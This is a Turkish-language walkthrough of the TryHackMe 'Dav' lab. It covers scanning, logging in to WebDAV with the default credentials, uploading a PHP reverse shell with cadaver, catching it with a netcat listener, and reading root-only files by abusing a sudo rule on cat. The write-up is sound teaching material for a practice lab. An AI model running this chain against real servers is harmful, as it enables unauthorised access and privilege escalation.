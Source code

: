 ```yaml
---
title: 'TryHackMe | Dav WriteUp'
author: appdone
categories: [TryHackMe]
tags: [webdav, sudo]
render_with_liquid: false
---
```


Bu yazımda TryHackMe platformunda yer alan “Dav” isimli meydan okumanın çözümünü göstereceğim. Öncelikle hedef’in üzerinde çalışan servisleri ve versiyonlarını öğrenmek adına bir nmap taraması gerçekleştireceğim.

```console
$ nmap -sV -sC -T4 10.10.112.72
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Tarama sonucunda sadece 80 numaralı portun açık olduğunu ve üzerinde Apache’nin 2.4.18 sürümünün çalıştığını öğrendim. Bu sürümde herhangi bir zafiyet bulunmuyor. Web uygulamasında ise Apache'nin varsayılan sayfası bulunuyor. Web uygulaması hakkında daha fazla bilgi toplamak için dirsearch aracını kullanacağım.

```console
$ dirsearch -u 10.10.112.72
[09:27:54] 401 -  459B  - /webdav/
[09:27:54] 401 -  459B  - /webdav/index.html
[09:27:54] 401 -  459B  - /webdav/servlet/webdav/
```

Tarama sonucunda 401 numaralı durum kodu ile webdav dizininin bulunduğunu öğrendik. Varsayılan kullanıcı adı ve parola ile giriş yapabiliyoruz.

```console
$curl -u "wampp:xampp" http://10.10.112.72/webdav/
...
<td><a href="passwd.dav">passwd.dav</a></td><td align="right">2019-08-25 20:43  </td><td align="right"> 44 </td><td>&nbsp;</td></tr>
...
```

Dizindeki passwd.dav dosyası içerisinde giriş yaptığımız kullanıcı bilgileri barınıyor. Cadaver aracını kullanarak içerisine php shell yükleyeceğim.

```console
$ cadaver http://10.10.112.72/webdav/
Username: wampp
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5493 bytes succeeded.
```

Yüklediğim php dosyasını çalıştırdıktan ve dinlemeye aldıktan sonra 1234 numaralı port üzerinden bir bağlantı elde ettim.

```console
$nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.26.33] 48276
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:48:36 up 5 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

/home/merlin dizininde bulunan user.txt dosyasındaki bayrağı aldıktan sonra “sudo -l” komutunu kullandım ve cat komutunu kullanarak root haklarında işlemler yapabileceğimi öğrendim

```console
www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Tabi /etc/shadow dosyasında root kullanıcısının hash’i bulunmuyor. Diğer kullanıcıların hashlerini kırmakla uğraşmak istemediğimden doğrudan /root/root.txt dosyasından son bayrağı alıyorum.

```console
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
1011***7af7afa5
www-data@ubuntu:/home/merlin$
```
